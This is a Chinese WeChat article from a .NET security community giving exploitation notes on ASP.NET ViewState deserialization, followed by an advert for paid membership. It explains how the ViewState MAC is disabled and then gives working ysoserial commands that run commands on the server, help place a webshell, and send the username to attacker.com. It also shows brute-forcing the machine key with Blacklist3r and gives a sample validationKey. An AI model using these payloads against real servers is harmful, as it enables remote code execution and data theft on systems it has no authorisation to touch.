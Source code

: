 #  .NET 分享ViewState反序列化漏洞个人总结   
原创 专攻.NET安全的  dotNet安全矩阵   2024-01-21 08:35  
  
本期继续分享来自dotnet安全矩阵星球一位师傅的个人笔记总结。 ![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/newemoji/666.png "")  
  
  
  
01  
  
**.NET<=4.5+禁用Mac验证**  
  
.NET≤4.5 且没打补丁KB2905247 (ViewState Mac未开启) 同时满足，  
实际测试就算小于4.0也是开启了mac验证的( 打了补丁 KB2905247)，并且强制关闭需要两步，  
  
第一步关闭注册表，第二步web.config添加配置，允许接收不被信任的反序列数据，这个时候才  
是成功关闭了mac验证  
  
  
## 1.1 修改注册表关闭mac验证  
  
  
可以改注册表强制关闭viewstate mac验证，将AspNetEnforceViewStateMac 的值修改为 0  
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v4.0.30319
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1sHNuecNQO8RSNibibibDc3VYfcDrhiagC4ZNoRZ5wZDnKsQN38bEYLl8mA/640?wx_fmt=png&from=appmsg "")  
## 1.2 web.config pages标签  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1x8cfXKQJVQUHrzly2LkiaM4U3MRzpbFF5boZcibtafd20xSIdbQialzLg/640?wx_fmt=png&from=appmsg "")  
  
这里需要注意：  
- enableViewState：用于设置是否开启 viewState ，但是请注意，根据 安全通告KB2905247  
中所说，即使在web.config中将enableViewState 设置为false，ASP.NET服务器也始终被动解析  
ViewState。  
也就是说，该选项可以影响ViewState的生成，但是不影响ViewState的被动解析。  
实际上，viewStateEncryptionMode也有类似的特点。  
  
- enableViewStateMac：用于设置是否开启 ViewState Mac (校验)功能。在 安全通告  
KB2905247 之前  
，也就是 4.5.2 之前，该选项为false，可以禁止Mac校验功能。  
但是在  
4.5.2 之后，强制开启ViewState Mac 校验功能，因为禁用该选项会带来严重的安全问题。  
  
不过  
我们仍然可以通过配置注册表或者在web.config 里添加危险设置的方式来禁用Mac校验，详情见  
后面分析。  
## 1.3 yso命令执行  
```
.\ysoserial.exe -o base64 -g TypeConfuseDelegate -f LosFormatter -c "echo hacker >
C:\Windows\temp\test.txt"
```  
  
这个时候才是没有mac验证，可以直接打。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1DvXnibhI3V2AUTAl7fK3YCibb8GfjluYc0a4Flyww50AL5J4VjArPiaNA/640?wx_fmt=png&from=appmsg "")  
  
## 1.4 yso命令写入webshell  
  
```
.\ysoserial.exe -o base64 -g TypeConfuseDelegate -f LosFormatter -c "for /r c:\ %i
in (check.aspx*) do echo %i >> %i\..\css.txt"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1NYwlL7s2OIFtia4Rc8Yef5FTF6DDf7iadxLmRAePFGrdqlZ0yJibKzCHQ/640?wx_fmt=png&from=appmsg "")  
  
02  
  
**.NET<=4.5+开启Mac验证**  
  
  
  
开了mac验证，就必须知道key才能打，  
知道key 直  
接打。  
不知道key，但是  
知  
道页面中含有 __Viewstate 参数和 _VIEWSTATEGENERATOR ，可以结合  
起来利用 Blacklist3r 进行爆破key。  
  
  
## 2.1 如果有validationKey  
  
假设web.config如下配置，  
如果 _VIEWSTATEGENERATOR 参数，可以直接将其值提供给 ysoserial 以生成有效负载。  
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
<machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077
B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A90033
57F5ED45" />
<pages enableViewStateMac="true" enableEventValidation="false" />
</system.web>
</configuration>
```  
  
如果页面没有 _  
VIEWSTATEGENERATOR 参数，此时，我们需要将应用程序路径和路径变量作为  
参数提供给 ysoserial。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1LFNhfbkLibHNL0v18wM0Y3YHhicfWO3SiborHV1W0yqF6Gkr7gibgfNibeA/640?wx_fmt=png&from=appmsg "")  
  
__VIEWSTATEGENERATOR 参数用于标识ViewState的版本和生成器。它有以下作用 在ASP.NET  
中  
，每个页面都有自己的__VIEWSTATEGENERATOR值，它是基于页面的特定信息和配置生成  
的  
__VIEWSTATEGENERATOR 参数是ViewState机制的一部分，用于标识ViewState的版本和生成器。  
## 2.1 如果不知道validationKey  
  
如果不知道 validationKey 使用Blacklist3r爆破key。具体命令如下所示  
```
.\NetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUJLTg4MTE3NDk1ZGQb
7395+3OOb7bG4+R1aZUviaztd/XYItH49wtb5ZqsCA== --purpose=viewstate --modifier=9B06E1C
D --macdecode
--encrypteddata = {__VIEWSTATE目标应用的参数值}
--modifier = {__VIWESTATEGENERATOR参数值}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1jv7v4I6UHmf8eIZKJGEu7RnMh5Mqicic22XB0v7VcpJmxMMK6GKEcapQ/640?wx_fmt=png&from=appmsg "")  
  
拿到key以后 开始生成payload，命令如下所示。  
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke
-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validati
onalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE
69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
--generator = {__VIWESTATEGENERATOR参数值}
```  
  
03  
  
**欢迎加入我们的知识库**  
  
为了更好地应对基于.NET技术栈的风险识别和未知威胁，dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
经过运营团队成员商议一致同意给到师傅们最大优惠力度，只需199元就可以加入我们。  
  
  
  
      
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最活跃的技术知识库之一，从.NET Framework到.NET Core，从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的安全指南和最佳实践。  
  
    星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多高质量的.NET安全资源，可以说市面上很少见，都是干货。  
  
星球文化始终认为授人以鱼不如授人以渔！  
加入星球后可以跟星主和嘉宾们一对一提问交流，20+个专题栏目涵盖了点、线、面、体等知识面，助力师傅们快速成长！  
其中主题包括.NET Tricks、漏洞分析、内存马、代码审计、预编译、反序列化、webshell免杀、命令执行、C#工具库等等。![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YiccvW0LwqSx3grm4bgM0fz01qCxrYGBR94wibZ7sk1zIO9DzCgviab9vmUic8qmvynXhSM8LxFhGG97w/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9y0BnibYCn1b9GMKqxd1Z5A1DLLJ9YxZeCn52XA1Kw7T5ibWCv89ZXpGjPOY7hXBDRVwNdKbMLZR3A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
    我们倾力打造专刊、视频等配套学习资源，循序渐进的方式引导加深安全攻防技术提高以及岗位内推等等服务。![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9XgicSeCfnDO0KyvDNdCZhG3pTSWHRekG0Wrp0FXyHO1mz9ia5uiaICjCmg5jIzx4ERLU8MjXWVSkCw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
    我们还有一个会员专属的星球陪伴群，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。  
此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YiccvW0LwqSx3grm4bgM0fz07qexJ82p5wxfXsVyzE3cc1WOVswovGicr35RthtQKpibYwibbSvicTRnjA/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9aRFXpNeIkic3jTthR7HSTpiauTB4r1g5YUibqMhf1kyiczRTxl6JjlsztOXn7jlibsB4qYyXtCsz9ibiaQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9aRFXpNeIkic3jTthR7HSTpNnhbQiaxQFIWaF54HfVND1D7uVGeAgMYH7lnj65jBFtVA1q3ibWic03Ag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9lvf0EpBgVnMoicPtLAx2A1ls9pNaRTDZ9HLg88k7qk0Y188fdC6DHaful53ibicIFD6ib6Wl4vbaW9Q/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
